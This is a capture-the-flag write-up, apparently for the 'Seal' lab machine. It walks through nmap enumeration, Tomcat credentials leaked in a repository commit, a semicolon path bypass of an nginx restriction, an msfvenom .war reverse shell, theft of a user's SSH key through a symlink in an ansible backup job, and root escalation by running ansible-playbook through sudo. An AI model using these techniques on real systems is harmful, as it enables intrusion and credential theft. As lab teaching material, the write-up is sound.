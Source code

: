 # 💫 Enumration

##### Nmap Scan
```text
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
```

##### 🔎 Detailed Scan 
	
<details>
<summary>NMAP SCAN</summary>
	
```text
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Issuer: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-05-05T10:24:03
| Not valid after:  2022-05-05T10:24:03
| MD5:   9c4f 991a bb97 192c df5a c513 057d 4d21
|_SHA-1: 0de4 6873 0ab7 3f90 c317 0f7b 872f 155b 305e 54ef
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Thu, 23 Sep 2021 08:35:27 GMT
|     Set-Cookie: JSESSIONID=node0fbf1ky049b9h1ff7lepk8ym9d2.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Thu, 23 Sep 2021 08:35:26 GMT
|     Set-Cookie: JSESSIONID=node0culo6dwhtuhf1jtr8luu7u7gq0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Thu, 23 Sep 2021 08:35:27 GMT
|     Set-Cookie: JSESSIONID=node01ap9wi1u0ec8us862vkbi4ixi1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4: 
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5: 
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```
</details>

***
#### 🔱 Enumrating port 8080

On Reading the Repositery , we came to know there is a **`Load Balancing Setup`** using :
- Apache Tomcat/9.0.31 (Ubuntu) [As Main Server]
- nginx/1.18.0 (Ubuntu) [As Proxy]

On Further reading configuration files we came to know the path for `Apache Tomcat` manager & Username-Password for Authentication 
\
Username & Password were found from `commit` to repositery in `tomcat-users.xml` file

- **tomcat : 42MrHBf*z8{Z%**

---

### 💚 Accessing Manager page

Since we are getting **`403`** Access Denid we are going to bypass this restriction

- **https://seal.htb/manager;foo/html;bare/**  ⭐
\
We can bypass the rule on `Ngix` for `/manager/html` and forward the request to `Tomcat` which is going to intercept the request for above as
✨ https://seal.htb/manager/html  
\
Because `Tomcat` is going to ingore words after **`;`**

##### Resources :

- ✔️ [A fresh look on reverse proxy related attacks | Acunetix](https://www.acunetix.com/blog/articles/a-fresh-look-on-reverse-proxy-related-attacks/)

- ✔️ [Breaking Parser Logic - Take Your Path Normalization Off and Pop 0days Out (blackhat.com)](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)

---
# ❗ Foothold

Now Since we got into `Tomcat` Manger we can create `.war` reverse shell and get a shell 

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=9001 -f war -o revshell.war
```

---
# 😐 User
We got the shell as `tomcat` 😺

There is fine named `run.yml` which contains the vector for Getting the user
```shell
tomcat@seal:/opt/backups$ cat playbook/run.yml
cat playbook/run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```
      
Here we can see This is copying `symlinks` as well from the directories 
\
On looking up at a particular Directory we can notice that backup is running evey minute

```shell
 tomcat@seal:/opt/backups/playbook$ ls -l /opt/backups/archives/
ls -l /opt/backups/archives/
total 1776
-rw-rw-r-- 1 luis luis 606047 Sep xx 06:35 backup-2021-09-27-06:35:32.gz
-rw-rw-r-- 1 luis luis 606047 Sep xx 06:36 backup-2021-09-27-06:36:32.gz
-rw-rw-r-- 1 luis luis 606047 Sep xx 06:37 backup-2021-09-27-06:37:32.gz
```
\
🌀 `run.yml` is copying the content of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` with it's `symlink`

- So we can link `.ssh` Directory of `Luis` user to get it's ssh key 
```bash
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

> Choosed `uploads` folder because `tomcat` user have `rwx` permissions

Once the Backup is down we can extract the key from it and use to ssh as `luis`

---

# 💥Privilage Escalation
On doing `sudo -l`
We can see `luis` user is allowed to run `ansible-playbook` as sudo with no password
\
So we can Create our own file as run it as sudo
```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```
**💖 Source :** [ansible playbook | GTFOBins](https://gtfobins.github.io/gtfobins/ansible-playbook/)



